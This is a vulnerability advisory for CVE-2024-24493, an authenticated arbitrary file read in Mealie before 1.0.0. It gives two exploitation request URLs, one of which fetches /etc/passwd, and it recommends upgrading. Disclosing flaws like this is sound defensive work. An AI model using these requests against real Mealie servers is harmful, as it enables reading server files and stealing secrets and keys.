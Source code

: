 ```yaml
---
title: "Authenticated Arbitrary File Read in Mealie"
date: 2024-02-01
tags:
	- "arbitrary file read"
advisory: true
origin:
cves: 
	- CVE-2024-24493
ghsas:
---
```

# Description
Mealie before version 1.0.0 is vulnerable to authenticated arbitrary file read due to improper validation of the path in the `/api/recipes/bulk-actions/export/download` and `/api/utils/download` endpoints.

# Explotation
1. Fetch a valid JWT token from the URL:
`http://Mealie-domain/api/recipes/bulk-actions/export/download?p
ath=%2Fetc%2Fpasswd`
2. Download the file using the JWT token provided:
`http://Mealie-domain/api/utils/download?token=<TOKEN>`

# Impact
Any authenticated user can generate an API token and thus access the API. Using this
vulnerability, an authenticated attacker can read arbitrary files from the server leading to
different impacts from confidentiality to RCE via secrets/keys exfiltration.

# Mitigation
Upgrade Mealie to version `1.0.0` or later

# References
* [Pull request](https://github.com/mealie-recipes/mealie/pull/2867)